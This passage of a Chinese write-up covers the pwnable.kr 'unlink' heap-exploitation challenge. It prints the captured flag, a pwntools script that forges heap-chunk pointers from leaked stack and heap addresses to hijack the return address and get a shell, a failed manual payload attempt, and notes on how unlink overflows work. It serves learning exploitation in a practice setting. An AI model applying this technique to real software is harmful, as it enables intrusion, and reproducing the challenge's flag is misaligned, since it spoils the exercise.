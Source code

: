 等待连接成功后，顺利拿到shell。
```
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```
目录下，作者也给出了参考答案：
```
from pwn import *
context.arch = 'i386'   # i386 / arm
r = process(['/home/unlink/unlink'])
leak = r.recvuntil('shell!\n')
stack = int(leak.split('leak: 0x')[1][:8], 16)
heap = int(leak.split('leak: 0x')[2][:8], 16)
shell = 0x80484eb
payload = pack(shell)       # heap + 8  (new ret addr)
payload += pack(heap + 12)  # heap + 12 (this -4 becomes ESP at ret)
payload += '3333'       # heap + 16
payload += '4444'
payload += pack(stack - 0x20)   # eax. (address of old ebp of unlink) -4
payload += pack(heap + 16)  # edx.
r.sendline( payload )
r.interactive()
```



## PS，没有成功的方法：

打开两个终端，第一个终端利用三个`cat`命令，等待读取`/tmp/payloadsss`中数据，
```
unlink@ubuntu:~$ (cat -; cat /tmp/payloadsss; cat -) | ./unlink 
here is stack address leak: 0xffdfd8e4
here is heap address leak: 0x99c8410
now that you have leaks, get shell!


```
第二个终端，将payload写入文件中。
```
unlink@ubuntu:~$ python -c "print  '\xeb\x84\x04\x08'+'A'*12+ '\x1c\x84\x9c\x09' + '\xf4\xd8\xdf\xff' " > /tmp/payloadsss
```
再在第一个终端中，输入`ctrl+D`。

-^-很可惜，我没有成功。

# 总结：

1. 经典的unlink是通过改写got表中的free地址为我们的shellcode的地址，这里也没有用到free函数。
2. 汇编语言leave是mov esp, ebp 		pop ebp
3. pwntools中的API使用，ssh,process,remote等。 
4. 堆溢出的原理：用精心构造的数据去溢出下一个堆块的块首，改写堆块的前向指针和后向指针，然后再分配、释放、合并等操作发生时司机获取一次向内存任意地址写入任意数据的机会。

# 参考资料
[1] [Unlink - Pwnable.kr](https://werew.tk/article/17/unlink-pwnablekr)
[2] [全面剖析Pwnable.kr unlink](http://blog.csdn.net/qq_33528164/article/details/77061932)
[3] [pwnable.kr之初探unlink](https://de4dcr0w.github.io/2017/04/23/pwnable.kr%E4%B9%8Bunlink%E5%88%9D%E6%8E%A2/)